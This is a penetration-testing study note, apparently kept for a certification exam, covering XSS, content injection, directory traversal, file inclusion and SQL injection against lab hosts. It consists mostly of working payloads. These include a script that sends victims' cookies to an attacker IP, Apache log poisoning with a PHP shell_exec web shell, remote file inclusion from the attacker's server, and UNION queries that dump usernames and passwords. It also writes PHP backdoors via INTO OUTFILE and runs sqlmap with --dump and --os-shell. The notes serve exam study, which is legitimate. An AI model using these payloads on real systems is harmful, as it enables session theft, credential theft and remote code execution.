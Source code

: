 ```yaml
---
title: Study Notes - 2021/03/16
date: 2021-03-16 09:44:15
tags: [Penetration Testing, Study Notes]
---
```


Use phpmyadmin to execute arbitrary sql  
```
select * from webappdb.users;
insert into webappdb.users(password, username) VALUES ("backdoor","backdoor");
```


# Cross-Site Scripting (XSS)
Once we identify an entry point, we can input special characters, and observe the output to see if any of the special characters return unfiltered.

# Content Injection
injsect invisible iframe `<iframe src=http://192.168.119.148/report height=”0” width=”0”></iframe>`  
Open listern on attack machine `sudo nc -nvlp 80`  
can redirect to information gathering script  

# Steal cokie and session information
<script>new Image().src="http://192.168.119.148/cool.jpg?output="+document.cookie;</script>

# Directory Traversal Vulnerabilities
## Identify
find any parameter in the url that looks like a file name  
e.g. `http://192.168.148.10/menu.php?file=current_menu.php`  
modify the file to reference files that should be readable by any user on the system, such as 
/etc/passwd on Linux or c:\boot.ini on Windows  `c:\windows\system32\drivers\etc\hosts`  


# File inclusion Vulnerabilities
included file will be executed. 
## local file inclusion/remote file inclusion
different from where the file included from  
We must locate
parameters we can manipulate and attempt to use them to load arbitrary files. However, a file inclusion takes this one step further, as we attempt execute the contents of the file within the application.  

## Contaminating Log Files  
clear log  
connect the servier with `<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>`  
This output is first wrapped in pre HTML tags, which preserve any line breaks or formatting in the results of the function call.  
inserted into the access log of apache:  
`192.168.119.148 - - [16/Mar/2021:18:18:11 -0700] "<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>\n" 400 980 "-" "-"`  

access the file inclusion url `http://192.168.148.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig`  

## Remote file inclusion  
Remote file inclusion (RFI) vulnerabilities are less common than LFIs since the server must be configured in a very specific way, but they are usually easier to exploit. For example, PHP apps must be configured with allow_url_include set to “On”.  

`http://192.168.148.10/menu.php?file=http://192.168.119.148/evil.txt&cmd=ipconfig`  
host the file by setup a apache server  
```
sudo vi /var/www/html/evil.txt
sudo systemctl start apache2

or 

sudo python -m SimpleHTTPServer 80
```
### webshell  
`/usr/share/webshells`  

## Expanding Your Repertoire  
open a http server on current workign path
```
python -m SimpleHTTPServer 2334
python3 -m http.server 7331
php -S 0.0.0.0:8000
ruby -run -e httpd . -p 9000
busybox httpd -f -p 10000
```

## PHP Wrappers 
when cannot poison local files
`menu.php?file=data:text/plain,hello world`  
treat the data wrapper as a file  
`menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>`  

# SQL injection  
## Discover SQL Injection Vulnerabilities
Common statement in sql;  
`$query = "select * from users where username = '$user' and password = '$pass'";`  

## Authentication Bypass
`tom' or 1=1;#`  `#` is comment in mysql and mariadb
Some web application expect the number of returned rows is 1  add LIMIT 1 `tom' or 1=1 LIMIT 1;#`  

## Enumerating the database  
`http://192.168.148.10/debug.php?id='`  
### Column number enueration
`http://192.168.148.10/debug.php?id=1 order by 1`  
Use burpsuit repeater tool  
results cotain 3 colums

## extra further data with union statement 
decide which colum is displayed  
`192.168.148.10/debug.php?id=1 union all select 1,2,3`  

**Union all allow duplicate values**  

colum 2,3 get displayed  
extract database verison: (depend on database engine, MariaDB use @@version)  
`http://192.168.148.10/debug.php?id=1 union all select 1, 2, @@version`  ->  10.1.31-MariaDB  
extract current database user   
`http://192.168.148.10/debug.php?id=1 union all select 1, 2, user() `  -> root@localhost  

We can enumerate database tables and column structures through the information_schema.
The information schema stores information about the database, like table and column names.
We can use it to get the layout of the database so that we can craft better payloads to extract
sensitive data. The query for this would look similar to the following:  
`http://192.168.148.10/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables`  

retrieve column name of user table:
`http://192.168.148.10/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'`

extra user name and password: 
`http://192.168.148.10/debug.php?id=1 union all select 1, username, password from users`


## From sql injection to code execution
`http://192.168.148.10/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')`


into outfile:  
from the error message, we know the location of webserver root: c:\xampp\htdocs  
```
http://192.168.148.10/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor2.php'

http://192.168.148.10/debug.php?id=1 union all select 1, 2, "<?php '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>" into OUTFILE 'c:/xampp/htdocs/backdoor4.php'
```

## Automating sql injection  
sqlmap -- not allowed in the exam  
`sqlmap -u http://192.168.148.10/debug.php?id=1 -p "id"`  
-p parameter to test  
```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 6836=6836

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 4323 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(4323=4323,1))),0x716b627a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 1257 FROM (SELECT(SLEEP(5)))yDOk)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,CONCAT(0x7171767071,0x5a65795043747065446255675763434c564c48537750534f6d437859715570677765524e4552616a,0x716b627a71),NULL-- -
```

automate the data extraction  
`sqlmap -u http://192.168.148.10/debug.php?id=1 -p "id" --dbms=mysql --dump`

mysql and mariadb looks similar  

get os shell automatically:  
`sqlmap -u http://192.168.148.10/debug.php?id=1 -p "id" --dbms=mysql --os-shell`